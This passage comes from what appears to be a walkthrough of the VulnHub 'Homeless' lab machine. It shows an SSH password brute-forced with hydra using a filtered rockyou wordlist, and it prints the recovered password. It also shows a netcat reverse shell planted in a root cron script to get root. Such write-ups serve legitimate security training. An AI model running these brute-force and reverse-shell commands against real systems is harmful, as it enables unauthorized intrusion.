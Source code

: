 ```
"If you got big stuck, Try with Password start with "sec*"
```

So, we create a wordlist based on rockyou with all words starting with sec

```sh
cat /usr/share/wordlists/rockyou.txt | grep ^sec > wordlist.txt
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:23:02.png)

Now we use hydra to bruteforce the password

```bash
hydra -l downfall -P wordlist.txt ssh://192.168.56.157 -t 20
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:28:03.png)

And we found the password! `secretlyinlove`

So, we ssh in the box

# downfall -> Root

Now, let's become root

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:23:52.png)

I saw that this user is able to edit `/lib/logs/homeless.py`. On top of that, there's a cron job running in the context of root every minute, executing:

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:25:44.png)

We just add in the top of that a reverse python shell

```py
#!/usr/bin/env python
os.system("/bin/nc 192.168.56.153 444 -e /bin/bash")
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:27:21.png)

And after one minute, we got a reverse root shell

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:31:32.png)

# Code Analysis

Let's dump the /var/www/html folder to make a simple code analysis on this box

```sh
zip -r web.zip html/
```
